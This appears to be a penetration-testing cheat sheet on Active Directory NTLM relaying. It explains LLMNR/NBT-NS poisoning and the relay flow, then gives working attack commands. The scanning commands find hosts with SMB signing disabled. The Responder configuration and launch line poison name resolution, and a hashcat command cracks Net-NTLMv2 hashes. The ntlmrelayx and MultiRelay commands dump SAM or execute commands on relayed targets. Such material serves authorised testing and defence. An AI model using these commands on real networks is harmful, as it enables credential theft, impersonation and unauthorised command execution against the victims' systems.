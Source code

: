 # Active Directory - NTLM Relaying

### Overview

The **LLMNR and NBT-NS poisoning attack**, combined with the **SMB Relay
attack**, or **NTLM Relaying**, can be used to gain an authenticated access to
servers by capturing local network SMB authentication traffic and relaying it to
targets servers.

Even when the organization has good patch management practices, this reliable
and effective attack can almost always be leveraged to obtain an initial
foothold.

###### LLMNR and NBT-NS poisoning

The **Link-Local Multicast Name Resolution (LLMNR)** and **Netbios Name
Service (NBT-NS)** protocols can be abused to intercept local network traffic.

These components allow machines on the same subnet to identify hosts when DNS
resolution fails. If one machine tries to resolve a particular host, but DNS
resolution fails, the machine will then attempt to ask all other machines on
the local network for the correct address via LLMNR or NBT-NS.

An attacker can listen on a network for these LLMNR (UDP/5355) or NBT-NS
(UDP/137) broadcasts requests and respond to them, thus pretending to be the
requested host.

###### NTLM relaying

The **NT LAN Manager v1 and v2** authentication process, used in by the
**Server Message Block (SMB)** protocol can be subverted.

The attack unwinds as follow:
  1. The victim tries to authenticates himself to a server
     (SMB_COM_NEGOTIATE Request)
  2. The authentication request is intercepted by an attacker
  3. The attacker initiates an authentication procedure to a targeted server
     and retrieves an authentication challenge (NTLM_CHALLENGE_MESSAGE) from
     this server
  4. The attacker forwards this challenge to the victim
  5. The victim answers the challenge to the attacker
     (NTLM_AUTHENTICATION_MESSAGE)  
  6. The attacker can then relay the victim challenge response to the targeted
     server to authenticate as the victim
  7. If the victim has local admin rights on the server, an complete access can
     be acquired   

Since MS08-068 you cannot relay a Net-NTLM hash back to the same machine you
got it from (e.g. the 'reflective' attack) unless you're performing a
cross-protocol relay.

For the attack to work, SMB Signing needs to be disabled on the targeted
machine. While SMB packet signing is available in all supported versions of
Windows, it is enabled by default on Domain Controllers.

### Exploit

*
To capture and offline crack the hashes captured, do not disable Responder SMB
and HTTP servers. The authentication attempt won't be transmitted to the relay
servers and no NTLM relaying is possible.  
To crack the Net-NTLMv2 hashes use hashcat:  
hashcat -m 5600 <HASHFILE> <WORDLIST> -o <OUTPUTFILE>
*

First, a list of host with SMB signing must be gathered. Either `nmap` or
`CrackMapExec` V4 can be used.

`Responder` can be used to conduct the LLMNR and NBT-NS poisoning
attack and the `ntlmrelayx.py` `Impacket`'s or `MultiRelay.py`, that comes
with the Responder toolkit, scripts can be used for the NTLM relaying.  

##### List SMB Signing disabled hosts

Either `nmap`, `CMEv4` or `PingCastle` (personal favorite) can be used to
gather a list of host with SMB signing disabled and output the result to a
file:

```bash
PingCastle.exe -> 5-scanner -> a-smb -> 1-all

nmap -v -sU -sS --open -oA nmap_smb_signing_off --script smb-security-mode.nse -p U:137,T:139,445 <TARGETS>
cat nmap_smb_signing_off.nmap | grep -B 14 "message_signing: disabled" | grep "Nmap scan report for" | cut -d " " -f 5 > <FILE>

cme smb <HOSTNAME | IP | CIDR | TARGETS_FILE> --gen-relay-list <FILE>
```

##### Intercepting

To check if a specific host, identified by its hostname, has LLMNR activated:

```
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>'
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>' -e <NETWORK_INTERFACE>

# Metasploit
use auxiliary/scanner/llmnr/query
set NAME <HOSTNAME>
run
```

If LLMNR is disabled, system have been hardened but NBT-NS may still be enabled.

`Responder` can be used to conduct the LLMNR and NBT-NS poisoning
attack.

*Do not use the version of Responder on SpiderLab's Github repository as it
isn't maintained anymore, use lgandx's fork instead.*

Edit the Responder.conf file and turn off the SMB and HTTP servers:

```
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

With those servers turned off, the authentication attempts captured are
automatically passed to ntlmrelayx.py's SMB and HTTP servers for the relay
attack.

Start Responder :

```
# -r : Enable answers for netbios wredir suffix queries
# -d : Enable answers for netbios domain suffix queries
# -w :  Start the WPAD rogue proxy server

python Responder.py -I <NETWORK_INTERFACE> -r -d -w
```

##### Relaying

The `ntlmrelayx.py` `Impacket`'s or `MultiRelay.py` (personal favorite), that
comes with the `Responder` toolkit, scripts can be used for the NTLM relaying
part:  

```
# MultiRelay
MultiRelay.py -t <HOSTNAME | IP> -c '<COMMAND>' -u '<ALL | USERNAME_TO_RELAY>'

# ntlmrelayx - By default, dump SAM base.
ntlmrelayx.py -t <IP | HOSTNAME>
ntlmrelayx.py -tf <TARGETS_FILE>
ntlmrelayx.py -t <IP | HOSTNAME> -c <COMMAND>
ntlmrelayx.py -tf <TARGETS_FILE> -c <COMMAND>
```
